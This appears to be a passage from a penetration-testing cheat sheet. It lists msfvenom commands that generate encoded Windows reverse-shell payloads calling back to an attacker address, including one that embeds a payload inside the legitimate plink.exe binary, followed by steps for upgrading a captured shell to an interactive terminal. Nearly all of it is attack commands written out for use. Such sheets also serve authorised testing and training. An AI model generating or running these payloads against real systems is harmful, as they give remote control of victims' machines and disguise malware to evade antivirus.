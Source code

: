 # Windows ASPX reverse shell
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx

# Windows JavaScript reverse shell with nops  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18

# Windows Powershell reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1

# Windows reverse shell excluding bad characters  
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai

# Windows x64 bit reverse shell  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe

# Windows reverse shell embedded into plink  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

Interactive Shell

Upgrading to a fully interactive TTY using Python

# Enter while in reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

File Transfers
